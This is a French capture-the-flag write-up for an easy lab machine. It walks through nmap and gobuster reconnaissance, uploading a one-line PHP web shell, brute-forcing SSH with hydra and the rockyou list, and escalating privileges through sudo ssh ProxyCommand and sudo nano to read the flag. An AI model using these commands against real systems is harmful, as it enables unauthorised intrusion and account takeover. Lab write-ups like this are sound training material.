








# Write up ctf facile 1 

## Etape 1 :  Analyser Réseau

Premièrement on effecture une analyse du réseau de la machine afin de voir quels ports sont ouverts : 

```bash
nmap 172.30.150.47
```

Résultat :



On constaste qu'il y a le port ssh d'ouvert et un service web, allons voir de ce coté ! 



On constate que c'est la page par défaut de appache, nous allons voir si il n'y a pas des fichier ou des redirections cachées avec l'outil ` gobuster `

```sh
gobuster dir -u http://172.30.150.47/ -w /usr/share/wordliste/dirbuster/directory-list-2.3-medium.txt -x .php,.html -t 40
```

| Paramètre | Signification |
|------------|---------------|
| -u          |   url du site          |
| -w          |   liste de mot à utiliser             |
| -x          |  extension de fichier à regarder              |


Il y a 3 url possible et accessible /uploads/ qui est un répertoire, /upload.php, et /index.html sur le quel nous somme déjà, allons voir du coté du /upload.php 



Nous arrivons sur une page basique où nous pouvons uploads des fichiers, on va voir si il accepte des script php où fait attention à l'extension du fichier. 



On va essayer d'upload me script php suivant qui permettra d'effectuer des commandes bash dans l'URL du site voir si cela fonctionne

```php
<?php echo "<pre>"; system($_GET["cmd"]); _halt_compiler() ?>
```
Et on se rend compte que cela fonctionne comme montrer sur la capture d'écran 



On voit qu'il y a 3 utilisateurs qu'on va devoir attaquer de part leur nom. (ctf-challenge)

On va essayer de bruteforce le premier utilisateur via hydra

```sh
hydra -l ctf-challenge-01 -P /usr/share/wordlist/rockyou.txt -f -t 50 -V 172.30.150.47 ssh
```

| Paramètre | Signification |
|------------|---------------|
| -l         |   nom utilisateur         |
| -p          |   liste de mot à utiliser             |
| -f          |  stop dès qu'il a trouver le mdp              |
| -t         |  nombre de thread           |
| -V         |  URL         |

On trouve ainsi le mot de passe `hellokitty` et on peut se connecter en ssh 



On regarde si par hasard on ne pourrait pas exécuter des commandes avec sudo, on se rend compte que l'on peut utiliser des commandes sudo /bin/ssh via l'utilisateur ctf-challegnge-01-1. Après une recherche internet on trouve l'exploit suivant :

```sh
sudo -u ctf-challenge-01-1 /bin/ssh -o proxyCommand=';sh 0<&2 1>&2' x
```

On arrive donc sur le terminaml en tant que ctf-challenge-01-1 et on refait la même procedure avec le `sudo -l`



Cette fois si on peut executer en tant que ctf-challenge-01-02 via sudo la commande nano, on va essayer d'ouvrir des fichier qui sont sur le dernier utilisateur notament un flag.txt que l'on retrouve sur le home et on obient ainsi le flag

La commande a excécuter : 

```sh
sudo -u ctf-challenge-01-2 /bin/nano /home/ctf-challenge-01/flag.txt
```

